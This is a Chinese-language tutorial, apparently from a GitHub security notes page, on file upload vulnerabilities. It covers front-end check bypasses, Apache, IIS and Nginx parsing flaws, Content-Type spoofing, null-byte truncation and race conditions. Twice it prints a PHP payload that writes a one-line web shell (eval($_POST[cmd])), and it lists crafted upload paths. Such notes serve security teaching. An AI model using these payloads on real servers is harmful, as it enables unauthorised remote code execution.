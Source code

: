 # 文件上传
## 6.1 文件上传介绍
文件上传漏洞是web安全中经常利用到的一种漏洞形式。一些web应用程序中允许上传图片，文本或者其他资源到指定的位置，文件上传漏洞就是利用这些可以上传的地方将恶意代码植入到服务器中，再通过url去访问以执行代码。
## 6.2 文件上传绕过攻击
### 6.2.1 JS检测绕过攻击
1. 使用burpsuit更该后缀名
2. 删除前端检测文件代码
### 6.2.2 中简介解析漏洞
1. Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。比如 test.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把test.php.owf.rar解析成php。 

        www.tets.com/test.php.php123
其余配置问题导致文件上传漏洞

         （1）如果在 Apache 的 conf 里有这样一行配置 AddHandler php5-script .php 这时只要文件名里包含.php 即使文件名是 test2.php.jpg 也会以 php 来执行。
         （2）如果在 Apache 的 conf 里有这样一行配置 AddType application/x-httpd-php .jpg 即使扩展名是 jpg，一样能以 php 方式执行。
2. IIS解析漏洞
IIS5.x-6.x解析漏洞

        (1)目录解析(6.0)。
          a. 形式：www.xxx.com/xx.asp/xx.jpg
          b. 原理: 服务器默认会把.asp，.asa目录下的文件都解析成asp文件
         (2)文件解析。
          a. 形式：www.xxx.com/xx.asp;.jpg
          b. 原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了。
        (3)解析文件类型
          a.IIS6.0 默认的可执行文件除了asp还包含这三种 :/test.asa、/test.cer、/test.cdx
IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

在默认Fast-CGI开启状况下,上传一个名字为wooyun.jpg，内容为

      <?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php
这个漏洞案例
3. nginx 解析漏洞
Nginx默认是以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置SCRIPT_FILENAME。当访问 www.xx.com/phpinfo.jpg/1.php 这个URL时，$fastcgi_script_name会被设置为“phpinfo.jpg/1.php”，然后构造成SCRIPT_FILENAME传递给PHP CGI，但是PHP为什么会接受这样的参数，并将phpinfo.jpg作为PHP文件解析呢?这就要说到fix_pathinfo这个选项了。 如果开启了这个选项，那么就会触发在PHP中的如下逻辑： PHP会认为SCRIPT_FILENAME是phpinfo.jpg，而1.php是PATH_INFO，所以就会将phpinfo.jpg作为PHP文件来解析了

       /UploadFiles/image/1.jpg/1.php
       /UploadFiles/image/1.jpg%00.php
（Nginx <8.03 空字节代码执行漏洞影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37
Nginx在图片中嵌入PHP代码然后通过访问xxx.jpg%00.php来执行其中的代码）/UploadFiles/image/1.jpg/%20\0.php
另外一种手法：上传一个名字为test.jpg，以下内容的文件。

       <?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?> 
然后访问test.jpg/.php,在这个目录下就会生成一句话木马shell.php。

### 6.2.3 文件类型绕过
通过更改数据包中的

      Content-Type：application/octet-atream
修改为

      Content-Type：image/jpeg
### 6.2.4 文件截断绕过攻击
1. 阶段类型：PHP%00截断
2. 截断原理：由于00代表结束符，所以00会把后面的所有字符删除
3. 条件：PHP<5.3.4,PHP的magic_quotes_gpc为OFF状态
### 6.5.5 竞争条件攻击
上传文件源代码里没有校验上传的文件，文件直接上传，上传成功后才进行判断：如果文件格式符合要求，则重命名，如果文件格式不符合要求，将文件删除
由于服务器并发处理(同时)多个请求，假如a用户上传了木马文件，由于代码执行需要时间，在此过程中b用户访问了a用户上传的文件，会有以下三种情况：
1. 访问时间点在上传成功之前，没有此文件
2. 访问时间点在刚上传成功但还没有进行判断，该文件存在
3. 访问时间点在判断之后，文件被删除，没有此文件

